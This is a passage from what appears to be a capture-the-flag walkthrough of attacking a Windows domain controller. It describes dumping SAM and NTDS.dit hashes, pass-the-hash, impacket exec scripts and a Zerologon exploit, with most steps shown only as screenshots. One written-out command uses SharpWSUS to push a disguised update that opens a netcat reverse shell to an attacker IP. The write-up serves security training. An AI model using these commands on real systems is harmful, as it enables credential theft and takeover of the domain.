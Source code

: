Being in administrator's group on domain controller we can dump the SAM and NTDS.dit hashes


<img src="https://i.imgur.com/yz1WNiv.png"/>

Grabbing administrator's hash from NTDS.dit to perform pass the hash

<img src="https://i.imgur.com/zhN3MeJ.png"/>

We can also use any of the exec scripts from impacket

<img src="https://i.imgur.com/K84KUUI.png"/>

<img src="https://i.imgur.com/HXAc4gy.png"/>

Instead of adding the user in administrators group we could have gotten a reverse shell through netcat as well

```powershell
cmd.exe /c 'SharpWSUS.exe create /payload:"C:\Users\sflowers\PsExec64.exe" /args:"-accepteula -s -d cmd.exe
 /c \" C:\Users\sflowers\nc64.exe 10.10.14.52 2222 -e cmd.exe\"" /title:"Updauwte"'

```

<img src="https://i.imgur.com/xcD6VhM.png"/>

<img src="https://i.imgur.com/8a0jNfM.png"/>

<img src="https://i.imgur.com/wXwcU0A.png"/>


## Un-intedned

### Testing for CVE-2020-1472 (Zerologon)

Now this CVE is old, but it's pretty common in AD as the machine was patched with recent CVEs but it this machine maybe vulnerable to zerologon

Which we can test if the machine is vulnerable with a testing script for the CVE

https://github.com/SecuraBV/CVE-2020-1472

The script needs netbios name which is the machine account name, we can get it with `enum4-linux` 

<img src="https://i.imgur.com/FUM2nP3.png"/>

<img src="https://i.imgur.com/4XdVhGY.png"/>

<img src="https://i.imgur.com/qt0M6fj.png"/>

Now that we know it's vulnerable we can exploit it with `-x`

<img src="https://i.imgur.com/XBOXSHC.png"/>
